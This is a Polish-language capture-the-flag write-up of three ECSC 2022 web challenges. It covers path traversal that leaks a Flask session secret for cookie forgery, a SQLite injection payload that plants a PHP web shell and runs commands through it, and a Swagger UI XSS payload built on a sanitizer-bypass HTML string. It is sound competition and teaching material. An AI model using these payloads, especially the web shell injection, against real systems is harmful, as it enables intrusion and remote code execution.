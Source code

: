 # ECSC 2022

`C:\Users\Jakub\Documents\projects\ctf\cert22`
`$PROJECTS/ctf/cert22`


## Kolska leaks
W `https://kolska-leaks.ecsc22.hack.cert.pl/download?filename=` widać path traversal
Wysatrczy pobrać kod aplikacji: /`download?filename=app.py`

Jest w nim zawarty secret key sesji
![image](https://raw.githubusercontent.com/piratehacker/ecsc-2022-poland-wrietups/master/images/Pasted%20image%2020220715232420.png.png)

Rozwiązanie: wystarczy stworzyć lokalną aplikację we flasku z tym samym sekretem sesji, wejść przez przeglądarkę i przekopiować ciasteczko


## Cat blag
Hint:
![image](https://raw.githubusercontent.com/piratehacker/ecsc-2022-poland-wrietups/master/images/Pasted%20image%2020220715232559.png.png)
Przy użyciu https://github.com/arthaud/git-dumper można pobrać kod źródłowy strony

w index.php znajduje się podatność sql injection:
![image](https://raw.githubusercontent.com/piratehacker/ecsc-2022-poland-wrietups/master/images/Pasted%20image%2020220715232700.png.png)

Payload:
```sql
'); ATTACH DATABASE '/var/www/html/uploads/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");
```

Flaga: `/uploads/lol.php?cmd=cat ../this-is-the-flag-but-with-an-unpredictable-name.txt`


## Szwagier
Podatność XSS w swaggerze

https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/

Wersja swaggera w https://szwagier.ecsc22.hack.cert.pl/static/swagger/swagger-ui-bundle.js:
![image](https://raw.githubusercontent.com/piratehacker/ecsc-2022-poland-wrietups/master/images/Pasted%20image%2020220716014428.png.png)

```yml
swagger: '2.0'

info:
  title: Classic API Resource Documentation
  description: |
    <form><math><mtext></form><form><mglyph><svg><mtext><textarea><path id="</textarea><img onerror={{PAYLOAD}} src=1>"></form>
  version: production

  

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: implicit
    authorizationUrl: https://www.facebook.com/v14.0/dialog/oauth
    scopes:
      public_profile: Grants read access
```
